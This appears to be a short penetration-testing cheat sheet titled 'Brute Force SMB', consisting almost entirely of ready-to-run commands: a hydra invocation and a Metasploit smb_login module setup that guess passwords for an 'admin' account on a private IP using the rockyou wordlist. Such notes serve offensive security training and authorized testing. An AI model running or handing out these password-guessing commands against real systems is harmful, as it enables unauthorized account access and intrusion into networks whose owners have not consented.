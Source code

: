 # Brute Force SMB
### hydra
````bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.2.15 smb
````
### Metasploit
````bash
use auxiliary/scanner/smb/smb_login
set SMBUser admin
set PASS_FILE /usr/share/wordlists/rockyou.txt
set rhosts 10.0.2.15
set lhost 10.0.2.10
exploit
````